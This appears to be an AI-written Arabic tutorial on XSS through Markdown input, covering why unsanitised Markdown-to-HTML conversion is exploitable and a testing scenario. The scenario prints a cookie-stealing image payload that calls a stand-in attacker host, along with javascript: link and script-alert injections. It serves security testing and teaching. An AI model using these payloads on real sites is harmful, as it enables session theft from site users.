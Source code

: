 بناءً على طلبك لشرح **الحقن المستخدمة في XSS عبر Markdown (Markdown XSS)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه الخطوة في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاستغلال ثغرة XSS باستخدام تنسيق **Markdown**، مع التركيز على إدخال شيفرات JavaScript أو HTML ضارة داخل محتوى Markdown الذي يتم تحويله إلى HTML دون تنظيف كافٍ. سيتم تقسيم المحاولات إلى فئات (مثل إدراج وسوم HTML، استخدام روابط JavaScript، واستغلال معالجات Markdown محددة). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: الحقن المستخدمة في XSS عبر Markdown (Markdown XSS)

### ما المقصود؟
الحقن المستخدمة في **XSS عبر Markdown** هي شيفرات JavaScript أو HTML ضارة تُدرج ضمن محتوى Markdown (لغة ترميز خفيفة تُستخدم لتنسيق النصوص) في تطبيقات الويب التي تحول Markdown إلى HTML لعرضه في المتصفح. تُستغل هذه الحقن عندما يسمح الموقع بإدخال محتوى Markdown (مثل في التعليقات، المنشورات، أو ملفات تعريف المستخدم) دون تنظيف كافٍ للوسوم أو الروابط التي يمكن أن تتضمن JavaScript. تشمل الحقن إدراج وسوم HTML مثل `<script>`، روابط ببروتوكول `javascript:`، أو استغلال ميزات Markdown مثل إدراج الصور أو الروابط لتنفيذ شيفرات ضارة. تُستخدم هذه الحقن في سياقات **XSS المنعكس**، **XSS المخزن**، أو **XSS القائم على DOM**.

### لماذا يعمل؟
- **تحويل Markdown إلى HTML**: تُستخدم مكتبات مثل **Marked** أو **Showdown** لتحويل Markdown إلى HTML، وإذا لم يتم تنظيف الإخراج، يمكن إدراج وسوم HTML/JavaScript ضارة.
- **دعم HTML في Markdown**: العديد من معالجات Markdown تسمح بإدراج وسوم HTML مباشرة (مثل `<script>` أو `<img>`)، والتي تُعرض كجزء من DOM.
- **ضعف التنظيف**: بعض التطبيقات لا تُنظف محتوى Markdown أو HTML الناتج بشكل صحيح، مما يسمح بتنفيذ JavaScript عبر وسوم أو روابط.
- **تجاوز الفلاتر**: يمكن استخدام صيغ Markdown (مثل روابط `[text](javascript:...)` أو صور `![alt](...)`) لتجاوز فلاتر XSS التي تحظر وسوم HTML تقليدية.
- **وصول JavaScript إلى DOM**: بمجرد تنفيذ JavaScript، يمكنه الوصول إلى بيانات حساسة (مثل `document.cookie`، `localStorage`) أو التلاعب بالصفحة.

### كيف يتم الاستغلال؟
- يتم إدخال محتوى Markdown يحتوي على وسوم HTML، روابط JavaScript، أو هياكل ضارة في نقطة إدخال عرضة (مثل حقل تعليق، منشور مدونة، أو ملف تعريف).
- تُصمم الحقنة لتنفيذ JavaScript عندما يتم تحويل Markdown إلى HTML وعرضه في المتصفح، إما تلقائيًا (مثل `<script>` أو `<img onload>`) أو عند التفاعل (مثل النقر على رابط `javascript:`).
- تُستخدم الشيفرة لتنفيذ إجراءات ضارة مثل:
  - سرقة ملفات تعريف الارتباط (`document.cookie`).
  - استخراج محتوى الصفحة (`document.body.innerHTML`).
  - إعادة توجيه المستخدم إلى موقع ضار.
  - تتبع تفاعلات المستخدم (مثل إدخال النصوص).
- يتم مراقبة خادم خارجي (إذا أُرسلت بيانات) أو استجابة المتصفح لتأكيد التنفيذ:
  - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه أو إرسال بيانات إلى خادم المهاجم).
  - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، قيود CSP، أو تنظيف الإدخال.
- تُكيَّف الحقن لتجاوز القيود (مثل استخدام صيغ Markdown بديلة أو تعتيم الشيفرة).

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يحتوي على حقل تعليق يدعم إدخال محتوى Markdown (مثل منصة مدونة أو منتدى). اكتشفت أن الموقع يحول Markdown إلى HTML باستخدام مكتبة مثل Marked دون تنظيف الوسوم HTML الناتجة. حاولت إدخال `<script>alert('XSS')</script>` في حقل التعليق، ولاحظت ظهور تنبيه عند عرض التعليق. تريد الآن استخدام حقنة Markdown مثل `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">` أو رابط `[Click](javascript:alert('XSS'))` لاستخراج بيانات حساسة أو تنفيذ إجراءات ضارة. إذا تلقى خادمك البيانات أو نُفذت الشيفرة، فهذا يؤكد وجود ثغرة XSS عبر Markdown.

---
